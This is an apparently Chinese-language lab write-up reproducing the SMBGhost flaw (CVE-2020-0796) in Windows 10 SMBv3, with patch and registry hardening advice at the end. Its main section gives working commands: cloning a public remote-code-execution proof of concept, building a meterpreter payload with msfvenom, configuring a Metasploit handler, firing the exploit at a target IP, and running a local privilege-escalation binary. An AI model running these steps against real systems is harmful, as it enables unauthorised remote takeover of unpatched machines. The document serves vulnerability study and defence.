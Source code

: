 ```yaml
---
title: CVE-2020-0796漏洞复现
tags: 漏洞复现
typora-root-url: ../
---
```


#### 漏洞描述

SMB 3.1.1协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

#### 漏洞影响版本

```
Windows Server, version 1909 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
```

<!--more-->

#### 环境介绍

```
攻击机：
版本：Kali 2020.2
Python版本：Python 3.8.2
IP地址：192.168.174.136

目标靶机：
镜像：cn_windows_10_business_editions_version_1903_x64_dvd_e001dd2c.iso
版本：Windows 10 专业版
版本号：1903
OS版本：10.0.18362 暂缺 Build 18362
RAM：2GB
防火墙状态：关闭
IP地址：192.168.174.135
```

#### 漏洞复现

##### RCE漏洞复现

```
# POC下载
git clone https://github.com/chompie1337/SMBGhost_RCE_PoC
```

![image-20200605110127820](/img/CVE-2020-0796%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/image-20200605110127820.png)

生成反向连接木马

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=6666 -f py -o link.py
```

![image-20200605105937620](/img/CVE-2020-0796%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/image-20200605105937620.png)

将生成的py文件中的变量"buf"替换为"USER_PAYLOAD"

![image-20200605110624030](/img/CVE-2020-0796%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/image-20200605110624030.png)

替换变量名完成后并将其所有代码与SMBGhost_RCE_PoC中的exploit.py的中的部分相似内容（如图）进行覆盖替换

![image-20200605110911519](/img/CVE-2020-0796%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/image-20200605110911519.png)

```
# 启动msf配置
kali@kali:~$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp #设置反弹模式
msf5 exploit(multi/handler) > set rhost 192.168.174.135 #设置目标靶机
msf5 exploit(multi/handler) > set lport 6666 #设置监听端口
msf5 exploit(multi/handler) > run
```

![image-20200605111713673](/img/CVE-2020-0796%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/image-20200605111713673.png)

```
# 执行exploit.py
python3 exploit.py -ip 192.168.174.135
```

![image-20200605122324146](/img/CVE-2020-0796%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/image-20200605122324146.png)

##### 本地提权漏洞复现

```
https://github.com/danigargu/CVE-2020-0796/releases
下载后直接命令行运行可执行程序（cve-2020-0796-local.exe）
```

![image-20200605124404688](/img/CVE-2020-0796%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/image-20200605124404688.png)



#### 安全加固

1、更新官方补丁KB4551762或者KB4556799（累计更新补丁包）。

```
官方补丁
3月12日更新补丁（KB4551762）：
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796
 
最新更新补丁（KB4556799）：
https://www.catalog.update.microsoft.com/Search.aspx?q=KB4556799 
```

2、对SMB通信139/445端口进行封禁。

3、PowerShell命令禁用压缩功能，以阻止未经身份验证的攻击者利用	 SMBv3服务器的漏洞。

```
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force
```



#### 参考

https://www.cnblogs.com/A66666/p/29635a243378b49ccb485c7a280df989.html

https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796

https://github.com/chompie1337/SMBGhost_RCE_PoC

https://github.com/danigargu/CVE-2020-0796

https://paper.seebug.org/1164/




